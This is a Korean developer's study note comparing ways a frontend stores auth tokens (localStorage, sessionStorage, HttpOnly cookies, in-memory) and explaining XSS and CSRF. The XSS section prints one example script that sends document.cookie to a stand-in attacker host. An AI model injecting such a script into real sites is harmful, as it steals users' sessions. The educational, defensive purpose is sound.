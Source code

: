 # 🔎 토큰의 저장 방식
> 프론트엔드에서 토큰을 저장하는 방식은 보안과 사용자 경험에서 중요한 문제이다! 로그인 구현에 앞서, 어떤 방식들이 있고 어떤 장/단점들이 있는지 확인해볼 필요가 있다.

## 📍 LocalStorage
```
localStorage.setItem("accessToken", token);
```
- ✅ 장점
  - 구현이 간단하고 빠르다.
  - JS코드에서 언제든 접근 가능하다
- ❌ 단점
  - 그렇기에 XSS 공격에 취약하다.
  - 자동으로 요청에 포함되지 않아 직접 헤더에 넣어야 한다.

### ☠️ XSS 공격 : Cross-Site Scripting
- 웹 페이지에 악의적인 스크립트가 삽입되어 실행되는 공격
- 예시
  ```
  안녕하세요! <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
  ```
  - 이런 글이 게시판에 올라오면, 이 글을 열면 해당 사용자의 쿠키가 공격자의 서버로 전송 => **쿠키**에 AccessToken이 들어있으면 세션 탈취로 이어질 수 있다.
- 즉, 공격 방식은 댓글,게시글,채팅 입력란에 `<script>` 같은 JS를 삽입해서 HTML을 렌더링 할 때, 이 스크립트가 실제로 실행되게 하는 방식이다.

### ☠️ CSRF 공격 : Cross-Site Request Forgery
- 사용자가 로그인 상태인 웹사이트에 대해, 공격자가 의도하지 않은 요청을 보내는 것으로 사용자도 모르게 요청이 보내지는 방식 -> **사용자가 로그인한 걸 이용해서 몰래 서버에 요청을 보내는 공격**
- 이는 사용자의 브라우저가 쿠키를 자동 포함하기 떄문에 발생
  
## 📍 SessionStorage
```
sessionStorage.setItem("accessToken", token);
```
- ✅ 장점
  - 탭 단위로 격리된다. -> 브라우저 탭 닫으면 사라짐
  - LocalStorage보다 조금 더 안전한 UX (자동 로그아웃)
- ❌ 단점
  - 하지만 똑같이 XSS 공격에 취약하다.
  - 탭마다 로그인이 필요할 수 있다.(불편)

## 📍 HttpOnly 쿠키
> 서버가 `Set-Cookie` 로 설정하는 방식으로 프론트는 직접 쿠키에 접근하지 못하고, 요청 시 자동 포함 되는 방식이다.
```
Set-Cookie: refreshToken=xxxx; HttpOnly; Secure; SameSite=None;
```
- ✅ 장점
  - XSS로부터 보호된다.
  - 요청 시 자동 포함되므로 구현이 간결하다.
- ❌ 단점
  - CORS 설정이 까다롭다.
  - CSRF 공격에 대비한 추가 조치 필요

## ⚠️ 일반적인 보안에서의 베스트 조합?
- AccessToken : JavaScript 메모리 (XSS 대비 필요하지만, 만료가 짧아서 위험도가 낮다)
- RefreshToken : HttpOnly 쿠키
- 즉, AccessToken은 클라이언트가 관리하고 RefreshToken은 서버가 안전하기 관리하는 방식의 조합

<br>

---

## 📍 메모리 저장
- 어딘가에 저장하지 않고, JS 변수나 상태 안에만 잠깐 보관
```ts
let accessToken = null;

function login() {
  // 로그인 후 응답 받은 accessToken을 변수에 저장
  accessToken = 'eyJhbGciOiJIUzI1...';
}

function callApi() {
  axios.get('/api/user', {
    headers: {
      Authorization: `Bearer ${accessToken}`
    }
  });
}
```
- 이렇게 보관할시, 페이지를 새로고침하거나 닫으면 날아가는 **휘발성 저장 방식**

### 🧠 왜 메모리에 저장할까?
- XSS 공격을 피할 수 있음
- localStorage, sessionStorage는 document로 접근 가능한데, JS 메모리는 외부에서 훔치기 더 어려움
- 단기 인증에 유리함 (SPA 기반 + 짧은 로그인 세션)
- React/Redux/Zustand 등 상태 관리와 조합해서 쓰기 쉬움

### 🔎 흐름
```
[새로고침]
    ↓
[AccessToken 휘발]
    ↓
[API 요청 → 401]
    ↓
[인터셉터: /auth/token/refresh 요청]
    ↓
[서버: RefreshToken으로 검증 후 새 AccessToken 발급]
    ↓
[프론트: 새 AccessToken 저장, 원래 API 재요청]
    ↓
[정상 응답]
```
- 설정만 잘해두면 사용자가 불편을 느끼지 않고 재빠르게 토큰 재발급도 하고 보안도 강화!!


## ✨ 차이 비교

| 항목 | 메모리 (JS 변수) | localStorage | sessionStorage | Cookie (JS 접근 가능) | HttpOnly Cookie |
|------|------------------|---------------|----------------|------------------------|------------------|
| 지속성 | ❌ 새로고침 시 사라짐 | ✅ 브라우저 꺼도 유지 | ❌ 탭 닫히면 사라짐 | ✅ 지속성 선택 가능 | ✅ 서버 설정에 따름 |
| JS 접근 | ✅ 가능 | ✅ 가능 | ✅ 가능 | ✅ 가능 | ❌ JS에서 접근 불가 |
| 보안 | 🔒 상대적으로 안전 (XSS 덜 탐지됨) | ❌ XSS에 취약 | ❌ XSS에 취약 | ❌ XSS에 취약 | ✅ XSS 방어 가능 |
| CSRF 방어 | ❌ 직접 보호 안됨 | ❌ | ❌ | ❌ | ✅ 쿠키 자동 전송 + CSRF 방어 가능 |
| 편의성 | 직접 관리 필요 | 사용 쉬움 | 사용 쉬움 | 자동 전송 가능 | 자동 전송 가능 |

